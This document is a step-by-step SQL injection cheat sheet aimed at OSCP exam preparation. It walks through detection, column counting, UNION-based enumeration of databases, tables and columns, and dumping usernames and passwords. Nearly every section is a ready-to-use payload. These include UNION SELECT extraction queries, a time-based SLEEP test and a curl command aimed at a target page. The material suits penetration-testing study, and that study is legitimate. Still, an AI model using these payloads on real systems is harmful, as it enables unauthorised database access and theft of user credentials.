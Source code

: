 

## **🛠 1. Detecting SQL Injection**

Test input fields, URL parameters, cookies, and headers.

**Boolean-based tests:**

sql

CopyEdit

`' OR '1'='1 --     -- should return valid results ' AND '1'='2 --    -- should return no results`

**Error-based tests:**

sql

CopyEdit

`'      -- single quote for syntax error "      -- double quote ')     -- closing parentheses`

---

## **📏 2. Find the Number of Columns**

sql

CopyEdit

`' ORDER BY 1 -- ' ORDER BY 2 -- ' ORDER BY 3 --`

Increase the number until it errors.  
Last working number = column count.

---

## **🎯 3. Identify Displayed Columns**

sql

CopyEdit

`' UNION SELECT NULL,NULL,NULL --`

Replace `NULL` one at a time with:

sql

CopyEdit

`'string'   -- to see if it’s displayed`

Example:

sql

CopyEdit

`' UNION SELECT 'abc',NULL,NULL --`

---

## **🛡 4. Extract DB Info**

**Database, User, Version:**

sql

CopyEdit

`' UNION SELECT database(), user(), version() --`

---

## **📚 5. List All Databases**

sql

CopyEdit

`' UNION SELECT schema_name, NULL, NULL    FROM information_schema.schemata --`

---

## **📂 6. List Tables in a DB**

sql

CopyEdit

`' UNION SELECT table_name, NULL, NULL    FROM information_schema.tables    WHERE table_schema='target_db' --`

---

## **📄 7. List Columns in a Table**

sql

CopyEdit

`' UNION SELECT column_name, NULL, NULL    FROM information_schema.columns    WHERE table_name='users' --`

---

## **🔓 8. Dump Data**

sql

CopyEdit

`' UNION SELECT username, password, NULL    FROM users --`

---

## **⏳ 9. Time-based Blind SQLi**

sql

CopyEdit

`' AND SLEEP(5) --`

If response is delayed, injection works.

---

## **🛠 10. Automating without SQLmap**

You can use **`curl` + `grep`** in Bash to automate step-by-step:

bash

CopyEdit

`curl "http://target/page.php?id=1' UNION SELECT database(),NULL,NULL-- -"`

---

## **💡 Tips for OSCP**

- Avoid automation tools like SQLmap.
    
- Use `curl`, `wget`, or **Burp Repeater** to speed up.
    
- Always comment out the rest of the query with `-- -` or `#`.
    
- If no output, try blind or time-based enumeration.




